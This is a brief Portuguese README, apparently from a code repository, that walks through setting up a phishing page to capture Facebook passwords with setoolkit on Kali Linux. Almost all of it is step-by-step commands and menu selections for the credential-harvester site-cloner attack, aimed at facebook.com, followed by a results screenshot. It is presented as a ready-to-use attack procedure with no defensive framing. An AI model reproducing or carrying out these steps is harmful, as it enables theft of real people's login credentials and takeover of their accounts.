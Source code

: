 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Configuração de rede: ```Placa em modo brigde ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- set:webattack> IP address for the POST back in Harvester/Tabnabbing  [seu.Ip.aparece.aqui]: ``` Tecle Enter ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./captura.png "Teste 1")
